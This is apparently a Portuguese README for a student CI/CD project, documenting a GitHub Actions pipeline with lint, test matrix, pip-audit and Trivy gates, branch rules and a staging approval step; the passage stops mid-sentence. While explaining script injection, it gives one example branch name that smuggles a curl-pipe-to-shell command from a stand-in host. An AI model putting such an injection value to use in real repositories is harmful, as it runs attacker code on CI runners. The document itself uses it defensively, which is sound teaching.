


# CI/CD — Grupo WJD

Pipeline de **Integração Contínua** em GitHub Actions, entrega da Atividade 1 da
disciplina de **Pipelines de Entrega Contínua (CI/CD) e Automação de
Deployments**, da especialização em DevOps da CESAR School.

A aplicação é uma todo-list em Flask + SQLite que veio pronta no starter-kit. O
objeto de estudo é o **pipeline**, não a aplicação.

> Todos os comandos deste documento rodam a partir da raiz do repositório.
> Este README começa pelo manual de operações — como ver a entrega funcionando —
> e só depois explica as decisões.

[](https://github.com/weynne/cicd-grupo-WJD/actions/workflows/ci.yml)


Badge verde indica `main` saudável; vermelho indica `main` quebrada — e
consertá-la passa a ter prioridade sobre qualquer funcionalidade nova.

---

## Sumário

- [A entrega em um minuto](#a-entrega-em-um-minuto)
- [Membros](#membros)
- [O que o pipeline faz](#o-que-o-pipeline-faz)
- [Início rápido](#início-rápido)
- [Evidências da entrega](#evidências-da-entrega)
- [Como o GitHub Actions funciona](#como-o-github-actions-funciona)
- [Pré-requisitos](#pré-requisitos)
- [Configuração no GitHub](#configuração-no-github)
- [Rodando localmente](#rodando-localmente)
- [Estrutura do repositório](#estrutura-do-repositório)
- [Arquivo por arquivo](#arquivo-por-arquivo)
- [Variáveis, inputs e secrets](#variáveis-inputs-e-secrets)
- [Verificação](#verificação)
- [Solução de problemas](#solução-de-problemas)
- [Decisões de arquitetura](#decisões-de-arquitetura)
- [Divergências em relação ao enunciado](#divergências-em-relação-ao-enunciado)
- [Créditos](#créditos)

---

## A entrega em um minuto

- **O que bloqueia o merge:** lint, testes em três versões do Python e dois scans
  de segurança, todos obrigatórios no ruleset da `main`.
- **Como foi comprovado:** um PR com uma versão vulnerável do `requests` ficou
  vermelho, teve o merge bloqueado e voltou ao verde com a correção — ver
  [Evidências da entrega](#evidências-da-entrega).
- **O que acompanha os gates:** alertas do Trivy anotados no próprio PR, cache de
  dependências, notificação no Discord e deploy em staging com aprovação humana.
- **Onde divergimos do enunciado, e por quê:** ver
  [Divergências](#divergências-em-relação-ao-enunciado).

---

## Membros

| Membro | GitHub | Frente principal |
| --- | --- | --- |
| Weynne Guimarães | [@weynne](https://github.com/weynne) | Dono do repositório: configuração, branch protection e pipeline de CI |
| Diego Tavares | [@diegotavares16](https://github.com/diegotavares16) | Environment e notificações; code owner dos workflows |
| Jéssica Camarco | [@jessicacamarco](https://github.com/jessicacamarco) | Gates de segurança e documentação; code owner dos manifestos |

---

## O que o pipeline faz

O `ci.yml` é um conjunto de **portões de qualidade** (*quality gates*) que
bloqueiam o merge quando o lint, os testes ou os scans de segurança falham.

### O grafo de jobs



`Lint` e `test` rodam **em paralelo** — `needs:` é o que cria ordem no GitHub
Actions, e só `deploy-staging` e `notify` declaram um. As setas pontilhadas são o
caminho da falha: com `if: always()`, o `notify` roda mesmo quando o lint ou os
testes reprovam, que é justamente quando o time precisa saber.

### O que acontece dentro de cada job da matrix

Os três jobs da matrix são idênticos, exceto pela versão do Python. A lógica
deles vive no reusable workflow, nesta ordem:



O Trivy vem **antes** do pytest de propósito: se a dependência já está
comprometida, não faz sentido gastar minutos rodando a suíte. Quando ele reprova,
o job já está vermelho e `pytest` e `pip-audit` ficam *skipped*. O upload do SARIF
é a exceção: tem `if: always()` porque o step do Trivy sai com código 1 quando
acha algo — sem isso, o relatório nunca chegaria ao code scanning exatamente
quando há o que reportar.

### Os gates

| Gate | Ferramenta | O que pega | Bloqueia o merge? |
| --- | --- | --- | --- |
| Lint | `ruff check .` | Estilo, imports fora de ordem, padrões conhecidos de bug | Sim |
| Testes | `pytest -v` | Regressão funcional, nas três versões do Python | Sim |
| Dependências | `pip-audit -r requirements.txt` | CVE em biblioteca Python de produção, com correção disponível | Sim |
| Filesystem | `trivy fs` com `exit-code: 1` | CVE `MEDIUM` ou acima em bibliotecas **e** em pacotes do SO base | Sim |

---

## Início rápido

Como ver o pipeline em ação, do jeito que ele funciona no dia a dia. Nada aqui
precisa ser instalado na sua máquina: quem executa é o runner do GitHub.

### 1. Abrir um pull request e ver o gate agir

```bash
git checkout main && git pull
git checkout -b feat/minha-mudanca
# ... edite os arquivos e faça commit ...
git push -u origin feat/minha-mudanca
```

Abra o PR pela interface do GitHub. O workflow dispara imediatamente, e a aba
**Checks** do PR mostra o status ao vivo. O botão de merge só libera quando os
quatro checks obrigatórios ficam verdes **e** um code owner que não seja o autor
aprova o PR.

### 2. Reproduzir a demonstração de shift-left

O `requirements.txt` da `main` não tem vulnerabilidades conhecidas. A falha é
introduzida de propósito, para ver o gate reprovar antes do merge.

```bash
git checkout main && git pull
git checkout -b fix/requests-cve
sed -i 's/requests==2.33.0/requests==2.31.0/' requirements.txt
git commit -am "chore: demonstrate the shift-left security gate"
git push -u origin fix/requests-cve
```

Abra o PR. O `Lint` segue **verde** — o código não mudou — e os três jobs de
teste ficam **vermelhos**: o Trivy encontra três CVEs `MEDIUM` no `requests` e
encerra o job com código 1, antes do `pytest`. Os alertas aparecem anotados na
linha alterada do `requirements.txt`, o merge fica **bloqueado** e uma
notificação vermelha chega no Discord.

Para corrigir, na **mesma branch**:

```bash
sed -i 's/requests==2.31.0/requests==2.33.0/' requirements.txt
git commit -am "fix(deps): bump requests to 2.33.0 to clear the CVEs"
git push
```

Os três checks voltam ao verde e os alertas passam a aparecer como *Fixed*; o
merge passa a depender só da revisão de um code owner. O problema foi pego no PR, antes do merge,
sem ninguém rodar a aplicação.

> [!IMPORTANT]
> Subir só para `2.32.x` **não** corrige os três CVEs. Os alertas do Trivy — e o
> `pip-audit`, rodado sobre o mesmo arquivo — apontam três versões de correção
> diferentes: 2.32.0, 2.32.4 e 2.33.0. Nem sempre "atualizar um pouco" basta.

### 3. Aprovar o deploy em staging

Logo após um merge na `main`, o job `Deploy to staging (dummy)` aparece como
**Waiting**. Vá em **Actions → o run → Review deployments → Approve and deploy**.
Quem aprova precisa ser um revisor do environment diferente de quem clicou em
*Merge* — ver [Environment](#environment).

O job não faz deploy de verdade: o que se demonstra é o gate de aprovação
humana, e cada aprovação fica registrada no histórico de deployments do
repositório.

---

## Evidências da entrega

| # | Evidência | Onde |
| --- | --- | --- |
| 1 | Pipeline completo verde na `main` | [run #3](https://github.com/weynne/cicd-grupo-WJD/actions/runs/34727936018) · [captura](evidencias/evidencia_07_pipeline_verde_main.png) |
| 2 | PR com merge **bloqueado** por gate vermelho | [PR #7](https://github.com/weynne/cicd-grupo-WJD/pull/7) · [caixa de merge](evidencias/evidencia_12_merge_bloqueado.png) · [step do Trivy](evidencias/evidencia_14_trivy_bloqueio.png) · [pip-audit](evidencias/evidencia_13_pip_audit_cves.txt) |
| 3 | O mesmo PR corrigido, com os checks verdes | [PR #7](https://github.com/weynne/cicd-grupo-WJD/pull/7) · [captura](evidencias/evidencia_11_pr_corrigido_verde.png) |
| 4 | Três jobs da matrix em paralelo + cache hit no segundo run | [run #3](https://github.com/weynne/cicd-grupo-WJD/actions/runs/34727936018) · [matrix](evidencias/evidencia_02_matrix_paralela.png) · [run #4](https://github.com/weynne/cicd-grupo-WJD/actions/runs/34731638025) · [cache](evidencias/evidencia_09_cache_hit.png) |
| 5 | `Deploy to staging` aguardando aprovação humana | [run #3](https://github.com/weynne/cicd-grupo-WJD/actions/runs/34727936018) · [aguardando](evidencias/evidencia_05_deploy_waiting.png) · [aprovado](evidencias/evidencia_06_deploy_aprovado.png) |
| 6 | Relatório do Trivy no code scanning | [PR #7](https://github.com/weynne/cicd-grupo-WJD/pull/7) · [captura](evidencias/evidencia_03_trivy_security.png) |
| 7 | Notificação de sucesso e de falha no canal do Discord | [sucesso](evidencias/evidencia_04_discord_sucesso.png) · [falha e recuperação](evidencias/evidencia_15_discord_falha.png) |

---

## Como o GitHub Actions funciona

Quatro níveis, de fora para dentro:

| Nível | O que é | Aqui |
| --- | --- | --- |
| **Workflow** | Arquivo YAML em `.github/workflows/`, disparado por eventos | `ci.yml`, `_reusable-test.yml` |
| **Job** | Grupo de steps que roda numa VM efêmera (*runner*) | `lint`, `test`, `deploy-staging`, `notify` |
| **Step** | Um comando de shell ou uma chamada de Action | `ruff check .`, `pytest -v` |
| **Action** | Código reutilizável, de terceiros ou próprio | `actions/checkout`, `aquasecurity/trivy-action` |

Por padrão **jobs rodam em paralelo**; `needs:` é o que cria ordem entre eles. É
daí que sai o formato deste pipeline: `lint` e `test` em paralelo,
`deploy-staging` com `needs: [lint, test]`, e `notify` com `needs:` nos três.

Cada job roda numa VM nova, isolada, destruída ao fim. Nada persiste entre jobs
além do que for explicitamente armazenado em cache ou publicado como artefato — por isso o
cache de pip existe, e por isso cada job precisa do seu próprio `checkout`.

Usamos apenas **runners hospedados** pelo GitHub (`ubuntu-latest`). Runner
self-hosted não é necessário aqui e traria manutenção e superfície de ataque sem
benefício.

---

## Pré-requisitos

O pipeline não exige nada instalado na sua máquina, porque roda nos runners
hospedados do GitHub. Os requisitos abaixo servem apenas para reproduzir os gates
localmente ou subir a aplicação.

| Requisito | Para quê |
| --- | --- |
| Acesso de escrita ao repositório | Abrir PRs e revisar |
| Python 3.10, 3.11 ou 3.12 | Rodar os gates na sua máquina |
| Docker | Rodar os gates em ambiente idêntico ao CI e subir a aplicação |
| Servidor no Discord com permissão de criar webhook | Notificação do pipeline |

Nenhuma credencial de nuvem é necessária.

---

## Configuração no GitHub

O que é configurado fora do código — e sem o qual o pipeline roda, mas não
bloqueia nada.

### Branch protection

`Settings → Rules → Rulesets → New branch ruleset`, alvo `main`:

| Regra | Por quê |
| --- | --- |
| Require a pull request before merging, com 1 aprovação | Ninguém faz commit direto na `main` |
| Dismiss stale pull request approvals | Um commit novo derruba a aprovação anterior |
| Require review from Code Owners | Ativa o efeito do `CODEOWNERS` |
| Merge method: somente *squash* | Um commit por PR na `main` |
| Require status checks to pass | **É este item que bloqueia o merge** |
| Require branches to be up to date | Os checks precisam ter rodado sobre a `main` atual, não sobre uma antiga |
| Require linear history | Sem merge commits na `main` |
| Block force pushes | Preserva o histórico |
| Restrict deletions | A `main` não pode ser apagada |
| Lista de exceções (*bypass*) vazia | A regra vale também para o dono do repositório |

### Required status checks

| Check | Obrigatório | Por quê |
| --- | --- | --- |
| `Lint (ruff)` | Sim | Gate de estilo |
| `test (3.10) / Test (Python 3.10)` | Sim | Gate funcional e de segurança |
| `test (3.11) / Test (Python 3.11)` | Sim | idem |
| `test (3.12) / Test (Python 3.12)` | Sim | idem |
| `Deploy to staging (dummy)` | **Não** | Não roda em pull request |
| `Notify pipeline result` | **Não** | É um aviso, não um gate |
| `Code scanning results / Trivy` | **Não** | Ver abaixo |

O nome dos três checks da matrix tem **duas partes**, separadas por barra: o job
do chamador com o valor da matrix (`test (3.10)`) e o job de dentro do reusable
(`Test (Python 3.10)`). É o GitHub compondo os dois lados de um
`workflow_call` — e é por isso que refatorar o pipeline renomeia os checks e
invalida a lista do ruleset.

> [!WARNING]
> `deploy-staging` **não** pode ser marcado como obrigatório: ele não roda em
> pull request, e um check que nunca reporta bloquearia todo merge para sempre.
> Os checks só aparecem na lista depois de rodarem pelo menos uma vez — se a
> lista estiver vazia, abra um PR, deixe o CI rodar e volte para marcá-los.

O check `Code scanning results / Trivy` aparece sozinho, criado pelo upload do
SARIF, e reporta os alertas novos no código alterado pelo pull request. Deixamos
fora dos obrigatórios de propósito: ele mede **alertas novos no diff**, enquanto
o gate real do Trivy é o `exit-code: 1` dentro do job, que mede
**vulnerabilidade existente**. Torná-lo obrigatório misturaria dois critérios
diferentes e nos tiraria o controle sobre o que bloqueia.

### Variables e secrets

`Settings → Secrets and variables → Actions`:

| Nome | Aba | Valor |
| --- | --- | --- |
| `PYTHON_VERSIONS` | **Variables** | `["3.10", "3.11", "3.12"]` |
| `NOTIFY_WEBHOOK_URL` | **Secrets** | URL do webhook do Discord |
| `STAGING_URL` | **Secrets** do environment `staging` | Valor fictício |

Se `PYTHON_VERSIONS` não existir, o `ci.yml` usa o valor de reserva e testa as
mesmas três versões — o pipeline não quebra, só deixa de ser configurável sem commit.

### Environment

`staging`, configurado com *required reviewers* e com a opção **Prevent
self-review** marcada. O job `deploy-staging` declara esse environment e pausa
até a aprovação. Secrets cadastrados dentro dele só ficam disponíveis para jobs
que o declaram — é a diferença entre secret de repositório e secret com escopo de
ambiente.

| Opção | Valor |
| --- | --- |
| Required reviewers | os três membros do grupo |
| Prevent self-review | **marcado** |

O *Prevent self-review* bloqueia **quem disparou o run**, não quem abriu o pull
request. Como é o merge que dispara o push na `main`, na prática ele separa dois
papéis: quem clica em *Merge* não é quem clica em *Approve and deploy*.

Isso não custa coordenação extra, porque o `CODEOWNERS` já obriga que o revisor
de um PR seja outra pessoa. Quem revisa faz o merge, e o autor aprova o deploy.

### CODEOWNERS

```text
*                       @weynne @diegotavares16 @jessicacamarco
/.github/workflows/     @weynne @diegotavares16
/k8s/                   @weynne @jessicacamarco
```

A última regra que corresponde ao caminho é a que vale. Cada área tem um mantenedor ao lado do dono
do repositório, então a revisão cai em quem conhece aquela parte: pipeline com
[@diegotavares16](https://github.com/diegotavares16), manifestos com
[@jessicacamarco](https://github.com/jessicacamarco). O que não corresponde a nenhuma
regra específica o time revisa entre si, pela regra `*`.

> [!NOTE]
> Toda regra lista no mínimo **dois** donos de propósito. O autor de um PR não
> pode aprovar o próprio PR, então uma regra de dono único deixaria sem revisor
> possível toda mudança proposta por ele — e o merge travaria.

---

## Rodando localmente

### Os mesmos comandos do CI

São exatamente os comandos que o pipeline executa, com as mesmas versões de
ferramenta. Rodar localmente não é obrigatório e, quando tudo passa, é trabalho
repetido. O ganho aparece quando algo quebra: o ciclo de correção vira segundos,
em vez de commit → push → esperar o runner → corrigir → esperar de novo.

```bash
python -m venv .venv
source .venv/bin/activate            # Windows: .venv\Scripts\activate
pip install -r requirements.txt -r requirements-dev.txt

ruff check .                         # lint
pytest -v                            # testes
pip-audit -r requirements.txt        # auditoria de dependências
```

Se a sua máquina tiver uma versão de Python fora da matrix (3.10–3.12), o Docker
reproduz o ambiente do CI:

```bash
docker run --rm -v "$PWD":/app -w /app python:3.12-slim bash -c \
  "pip install -q -r requirements-dev.txt && ruff check . && pytest -q && pip-audit -r requirements.txt"
```

O scan do Trivy, com as mesmas opções do pipeline:

```bash
docker run --rm -v "$PWD":/src -w /src aquasec/trivy:0.58.0 fs \
  --severity MEDIUM,HIGH,CRITICAL --ignore-unfixed --exit-code 1 .
```

### A aplicação

```bash
docker build -t todolist:dev .
docker run --rm -p 8080:5000 -e APP_COLOR=blue -e SESSION_KEY=local todolist:dev
# http://localhost:8080 — login admin / admin
```

> [!NOTE]
> Porta 8080 no host de propósito: no macOS a 5000 é ocupada pelo AirPlay
> Receiver, que responde `403` e gera confusão.

---

## Estrutura do repositório

```text
.
├── .github/
│   ├── CODEOWNERS                          # donos por caminho; revisor automático
│   └── workflows/
│       ├── ci.yml                          # o pipeline desta entrega
│       ├── _reusable-test.yml              # steps de teste reutilizáveis
│       ├── validate-ssh.yml                # do starter-kit, fora do escopo desta entrega
│       └── cd*.yml.example                 # esqueletos inertes, fora do escopo desta entrega
├── app.py                                  # Flask + SQLite (rota /healthz usada pelos gates)
├── test_app.py                             # suíte pytest — 13 testes
├── requirements.txt                        # dependências de produção — alvo dos scans
├── requirements-dev.txt                    # pytest, ruff, pip-audit
├── pyproject.toml                          # configuração do ruff
├── Dockerfile                              # imagem da aplicação
├── k8s/                                    # manifestos de deploy, fora do escopo desta entrega
├── evidencias/                             # capturas da entrega, com índice próprio
└── docs/                                   # referências do starter-kit
```

O prefixo `_` em `_reusable-test.yml` sinaliza workflow de apoio: chamado por
outro via `uses:` e nunca disparado por evento próprio.

---

## Arquivo por arquivo

O starter-kit entrega a aplicação e os manifestos prontos. O grupo criou ou
alterou apenas estes arquivos:

| Arquivo | O que fizemos | Como |
| --- | --- | --- |
| `.github/CODEOWNERS` | criado | renomeado de `CODEOWNERS.example` |
| `.github/workflows/ci.yml` | criado | renomeado de `ci.yml.example` |
| `.github/workflows/_reusable-test.yml` | criado | renomeado de `_reusable-test.yml.example` |
| `README.md` | substituído | era o README do professor |
| `evidencias/` | criado | capturas da entrega, com índice |
| `requirements.txt` | alterado e revertido | só nas branches de demonstração, nunca na `main` |

> [!NOTE]
> O GitHub Actions só executa arquivos `.yml` e `.yaml` dentro de
> `.github/workflows/`. O sufixo `.example` é o que mantém os esqueletos inertes
> até serem renomeados — por isso cada arquivo nasce de um `git mv`, e não de um
> arquivo novo: assim o histórico mostra que ele veio do esqueleto.

---

### `.github/CODEOWNERS`

```bash
git mv .github/CODEOWNERS.example .github/CODEOWNERS
```

Três regras, uma por linha. Cada uma associa um caminho a quem o GitHub deve
pedir revisão quando um PR altera aquele caminho.

```text
*                       @weynne @diegotavares16 @jessicacamarco
/.github/workflows/     @weynne @diegotavares16
/k8s/                   @weynne @jessicacamarco
```

| Bloco | O que faz |
| --- | --- |
| `*` | Regra de fundo: qualquer arquivo que não corresponda às outras. O time inteiro revisa |
| `/.github/workflows/` | Mudança no pipeline. Revisão do dono do repositório ou do mantenedor do CI |
| `/k8s/` | Manifestos de deploy. Dono do repositório ou a mantenedora dos manifestos |

**A última regra que corresponde é a que vale**, não a primeira. Um PR que altera
o `ci.yml` cai na segunda regra e ignora a primeira. Quem lê o arquivo de cima
para baixo costuma supor o contrário — é o erro de leitura mais comum.

**Toda regra tem no mínimo dois donos.** O autor de um PR não pode aprovar o
próprio PR: numa regra de dono único, todo PR aberto por ele ficaria sem revisor
possível e o merge travaria para sempre.

Para o arquivo ter efeito, duas condições: os usuários precisam ter acesso de
**escrita** e ter **aceito** o convite de colaborador — convite pendente faz o
GitHub exibir "Unknown owner" e ignorar a linha em silêncio. E o ruleset da
`main` precisa de **Require review from Code Owners** marcado, senão o arquivo
só sugere revisores sem obrigar ninguém.

---

### `.github/workflows/ci.yml`

```bash
git mv .github/workflows/ci.yml.example .github/workflows/ci.yml
```

O workflow principal: 4 jobs, 264 linhas. É o **chamador** — concentra gatilhos,
permissões e orquestração, e delega os steps de teste ao reusable.

| Bloco | O que faz |
| --- | --- |
| `name:` | Nome que aparece na aba Actions e no texto do badge |
| `on:` | Os três gatilhos que fazem o workflow rodar |
| `permissions:` | Teto de privilégio do `GITHUB_TOKEN` para todo o workflow |
| `concurrency:` | Cancela o run anterior da mesma branch |
| `env:` | Valores de configuração não sensíveis |
| `jobs.lint` | Gate de estilo com `ruff`, fora da matrix |
| `jobs.test` | Chama o reusable uma vez por versão do Python |
| `jobs.deploy-staging` | Gate de aprovação humana via environment |
| `jobs.notify` | Manda o resultado final para o Discord |

#### `on:` — os três gatilhos

```yaml
on:
  pull_request:
    branches: [main]
  push:
    branches: [main]
    tags: ['*']
```

Cada um existe por um motivo diferente. **`pull_request`** é o que faz o CI ser
um gate de merge — sem ele, o pipeline só rodaria depois do merge. **`push` na
`main`** mantém o badge do README honesto sobre a saúde da branch principal.
**`tags: ['*']`** submete toda tag aos mesmos gates, porque uma tag é candidata a
release e nenhuma release deveria existir sem ter passado por lint, testes e
scans.

#### `permissions:` — menor privilégio

```yaml
permissions:
  contents: read
```

Sem esse bloco, o `GITHUB_TOKEN` herda a permissão padrão do repositório, que
pode incluir escrita. Um workflow comprometido — por uma action de terceiro
maliciosa, por exemplo — poderia escrever no repositório, criar releases ou
apagar branches.

O bloco no topo é o **padrão** de todos os jobs. Um job que precisa de mais pede
explicitamente, e só ele recebe: o `test` declara `security-events: write` porque
o reusable sobe SARIF.

#### `concurrency:` — um run por branch

```yaml
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true
```

O `group` é a chave: runs com a mesma chave não coexistem. Como a chave inclui a
ref, dois PRs diferentes rodam em paralelo, mas dois pushes na mesma branch não —
o novo cancela o antigo em vez de entrar na fila atrás dele.

#### `env:` — o que não deve ficar fixo no código

```yaml
env:
  DEFAULT_PYTHON_VERSION: '3.12'
```

Usado pelo job `lint`, que não precisa da matrix inteira: `ruff` analisa o código
estaticamente, sem executá-lo, então rodar nas três versões daria o mesmo
resultado três vezes. Sem a variável, a versão ficaria escrita direto no step, e
trocar de 3.12 para 3.13 exigiria caçar ocorrências pelo arquivo.

#### `jobs.lint` — o gate mais rápido

Cinco steps: `checkout` → `setup-python` → `cache` → `install` → `ruff check .`.

A configuração do `ruff` vive no `pyproject.toml`, então este comando produz
exatamente o mesmo resultado na máquina de quem escreveu o código e aqui. O job
tem cache próprio, com chave `…-pip-lint-…`, para não competir com a chave dos
jobs da matrix.

#### `jobs.test` — a matrix chamando o reusable

```yaml
  test:
    permissions:
      contents: read
      security-events: write
    strategy:
      fail-fast: false
      matrix:
        python-version: ${{ fromJSON(vars.PYTHON_VERSIONS || '["3.10", "3.11", "3.12"]') }}
    uses: ./.github/workflows/_reusable-test.yml
    with:
      python-version: ${{ matrix.python-version }}
```

Cinco decisões em dez linhas:

**`uses:` em vez de `steps:`.** Este job não tem `runs-on` nem `steps` — quem
executa steps é o reusable. É o erro mais comum: acrescentar `runs-on` aqui
quebra o workflow com erro de validação.

**A matrix vive no chamador.** O `strategy.matrix` multiplica este job em três, e
cada cópia chama o reusable uma vez. Trocar as versões testadas não toca nos
steps, e mudar os steps não toca nas versões.

**`fail-fast: false`.** O padrão do GitHub é `true`, que **cancela** as outras
versões no instante em que uma falha. Com `false`, as três terminam — e uma
execução responde se o problema é de uma versão só ou de todas, em vez de três
ciclos de corrigir e rodar de novo.

**As versões vêm de uma variável.** `vars.PYTHON_VERSIONS` é configuração, não
código: ampliar a cobertura é uma edição em `Settings`, sem commit. O literal
depois do `||` é o valor de reserva — sem ele, um clone sem a variável cadastrada
quebraria no `fromJSON` de uma string vazia.

**`with:` é o contrato.** O valor da matrix entra no reusable pelo input
`python-version`. É por isso que o mesmo dado tem dois nomes: `matrix.` aqui,
`inputs.` lá dentro.

#### `jobs.deploy-staging` — aprovação humana sem escrever lógica

```yaml
  deploy-staging:
    name: Deploy to staging (dummy)
    needs: [lint, test]
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    environment:
      name: staging
```

O step apenas executa um `echo`: o deploy é simulado. O que se demonstra é o
bloco **`environment:`**: ao declarar um environment que tem *required
reviewers*, o job aparece como *Waiting* e pausa até alguém aprovar em **Review
deployments**. Nenhuma linha de código nossa implementa a espera; a plataforma
faz isso.

**`needs: [lint, test]`** é o que cria ordem: sem isso ele rodaria em paralelo
com os testes e faria deploy de código que ainda não passou por eles. **O `if:`**
restringe o job a push na `main` — pedir aprovação a cada pull request cansaria
os revisores rapidamente.

> [!WARNING]
> Este job **não** pode ser marcado como required status check. Ele não roda em
> pull request, e um check que nunca reporta deixa o merge bloqueado para sempre.

#### `jobs.notify` — dois steps e os cuidados de cada um

O primeiro step decide a mensagem; o segundo envia.

```yaml
      - name: Compose message
        id: msg
        env:
          LINT_RESULT: ${{ needs.lint.result }}
          TEST_RESULT: ${{ needs.test.result }}
          DEPLOY_RESULT: ${{ needs.deploy-staging.result }}
        run: |
          echo "status=SUCCESS" >> "$GITHUB_OUTPUT"
```

**`$GITHUB_OUTPUT`** é como um step entrega valor a um step seguinte: o runner
expõe o caminho de um arquivo nessa variável, e o step anexa linhas
`nome=valor`. O **`id: msg`** é o que torna esses valores endereçáveis como
`steps.msg.outputs.status` daqui para frente.

**`skipped` conta como neutro.** `deploy-staging` fica `skipped` em pull request,
porque a condição `if:` dele não é satisfeita. Tratar isso como falha faria todo PR reportar um
pipeline vermelho.

```yaml
      - name: Send Discord notification
        if: env.WEBHOOK_URL != ''
        env:
          WEBHOOK_URL: ${{ secrets.NOTIFY_WEBHOOK_URL }}
          BRANCH: ${{ github.head_ref || github.ref_name }}
        run: |
          jq -n --arg branch "${BRANCH}" '…' \
          | curl -sS --fail-with-body -d @- "$WEBHOOK_URL"
```

**Todo valor entra por `env:`, e o shell lê como `$VAR`.** Escrever
`${{ github.head_ref }}` direto dentro do `run:` colaria o valor no **texto do
script** antes de o shell executá-lo — uma branch chamada `x";curl evil.sh|sh;"`
viraria código executável. É a injeção de script clássica do Actions. Por `env:`
o valor é apenas dado.

**`head_ref` e não `ref_name`.** Num `pull_request`, o `github.ref_name` devolve
`2/merge` — a ref interna que o GitHub cria para testar o merge, que não é nome
de branch nenhum. O `github.head_ref` carrega a branch de origem de verdade, e
fica vazio fora de pull request; daí o `||`, que cai no `ref_name` em push e em
tag.

**`--fail-with-body` no `curl`.** Sem ele o `curl` sai com código 0 mesmo quando
o Discord recusa o payload: o job fica verde e a mensagem nunca chega. Com ele o
step fica vermelho e o log mostra o motivo que o Discord devolveu.

**`jq` monta o JSON**, em vez de concatenação de string: uma aspa ou um acento
num nome de branch não geram um JSON malformado. O `jq` vem
pré-instalado nos runners Ubuntu do GitHub.

**A condição fica no step, não no job.** O contexto `secrets` não está disponível em
`if:` de job — daí o `if: env.WEBHOOK_URL != ''` aqui. Sem ele, um clone deste
repositório sem webhook configurado falharia num `curl` para uma URL vazia.

**`if: always()` no job** é obrigatório: um job que depende do sucesso dos
anteriores nunca dispararia numa falha, que é exatamente quando a notificação
importa.

---

### `.github/workflows/_reusable-test.yml`

```bash
git mv .github/workflows/_reusable-test.yml.example .github/workflows/_reusable-test.yml
```

O prefixo `_` é convenção: sinaliza workflow de apoio, chamado por outro via
`uses:` e nunca disparado por evento próprio.

| Bloco | O que faz |
| --- | --- |
| `on: workflow_call` | Declara o contrato: é isto que torna o arquivo chamável |
| `inputs.python-version` | O único parâmetro. Obrigatório, tipo string |
| `permissions:` | Teto do token dentro deste workflow |
| steps 1–4 | checkout → setup-python → cache → install |
| step Trivy | Primeiro gate de segurança, antes dos testes |
| step upload SARIF | Envia o relatório para o code scanning |
| steps pytest e pip-audit | Gate funcional e gate de dependências |

#### `workflow_call` e o input

```yaml
on:
  workflow_call:
    inputs:
      python-version:
        description: 'Python version used to run the tests'
        type: string
        required: true
```

`workflow_call` é o que diferencia um reusable de um workflow comum: ele não tem
gatilho de evento, só pode ser invocado. O input é **singular** — este arquivo
recebe **uma** versão por chamada e não sabe que existe uma matrix. Quem
multiplica é o `ci.yml`.

#### Cache, e por que a chave é composta

```yaml
          key: ${{ runner.os }}-pip-${{ inputs.python-version }}-${{ hashFiles('requirements*.txt') }}
          restore-keys: |
            ${{ runner.os }}-pip-${{ inputs.python-version }}-
```

Três componentes na chave, cada um evitando um problema: **sistema do runner**
porque um pacote *wheel* compilado para Linux não serve no macOS; **versão do Python** porque
`cp310` e `cp312` são incompatíveis; **hash dos requirements** porque mudar
dependência tem que invalidar o cache.

Chave igual à de um run anterior significa *cache hit* e nada é baixado. Chave
diferente significa *miss*, mas o `restore-keys` casa por prefixo e recupera um
cache próximo, aproveitando parte da instalação. O objetivo não é economizar
minutos de máquina, e sim dar retorno rápido no PR.

#### O step do Trivy

```yaml
        with:
          scan-type: fs
          scan-ref: .
          severity: MEDIUM,HIGH,CRITICAL
          exit-code: '1'
          ignore-unfixed: true
          format: sarif
          output: trivy-results.sarif
```

| Campo | Efeito |
| --- | --- |
| `scan-type: fs` | Analisa arquivos e manifestos, sem precisar construir uma imagem |
| `scan-ref: .` | A raiz do repositório |
| `severity` | A faixa que reprova. Começa em `MEDIUM` — ver [Divergências](#divergências-em-relação-ao-enunciado) |
| `exit-code: '1'` | **É isto que transforma o scan em gate.** Sem ele, o scan só informa |
| `ignore-unfixed: true` | Descarta CVE sem patch, que manteria o build vermelho sem ação possível |
| `format: sarif` | Formato que alimenta o code scanning do GitHub |

#### O upload do SARIF

```yaml
      - name: Upload Trivy report to the Security tab
        if: always()
        uses: github/codeql-action/upload-sarif@b96794f0…
        with:
          sarif_file: trivy-results.sarif
          category: trivy-python-${{ inputs.python-version }}
```

Dois detalhes que não são preferência. **`if: always()`**: o step anterior sai com
